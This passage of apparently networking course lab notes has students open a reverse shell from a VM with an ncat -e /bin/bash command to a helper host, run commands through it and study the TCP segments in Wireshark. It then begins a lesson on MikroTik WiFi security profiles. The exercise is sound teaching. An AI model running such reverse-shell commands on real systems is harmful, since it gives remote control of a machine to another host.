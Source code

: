 3. Create some files inside your VM:
```bash
mkdir ~/test7_1
cd ~/test7_1
touch test.txt
echo "Jump" > bingo.txt
mkdir new
echo "Run" > new/1.txt
```
4. Use VM shell to connect to the TCP port of Host machine or helper VM:
`ncat -e /bin/bash <IP of host or helper VM> 1715`

4. Now our VM exposed it's shell and that shell is accessible on the host machine or helper VM.
Let's execute `ls` command and `pwd` in the shell with socat command which was started in Item 1.

5. Monitor Wireshark and write down information about corresponding connections. You should find some segments with the output commands execution.

6. Let's run command `grep Jump *` in the reeverse shell. We should file with that Jump word. But where it's placed. `find -name bingo.txt`

6. Close TCP connection and analyse the segments observed in Wireshark - flags, ack, sequence numbers and write down this info.

7. Close all the commands and shells.

### 3. Other tasks
Practice your skills and learn more about find command https://www.redhat.com/en/blog/linux-find-command

---

# Lesson 8.1: WiFi security profile and filtering clients by MAC. Work with Linux find utility.
**NOTE** You can open this file in VSCode or other editor to have better commands highlight.

### 0. Lesson goals and grading scope
The main goal of this lesson is to work with WiFi security setup on real routers. Also we will practice our find and grep skills a bit.

**Grading:**
`0.5 points` - presence on the lesson
`0.25 points` - proper setup of the network on the real router including WiFi security profiles.
`0.25 points` - work with find and grep utilities

### 1. Routers
**Knowledgebase START**
It is important to set a good encryption to the WiFi network as this allows to decrease a possibility of some attack types. To manage security parameters easily MikroTik RouterOS uses security profiles.
Therefore you can save different parameters of security to different named entities and then you can use them as a part of wlan configuration. Note that we can use different profiles for wlan1 and wlan2 interfaces. Let's try to practice such an approach on the real router.
**Knowledgebase END**
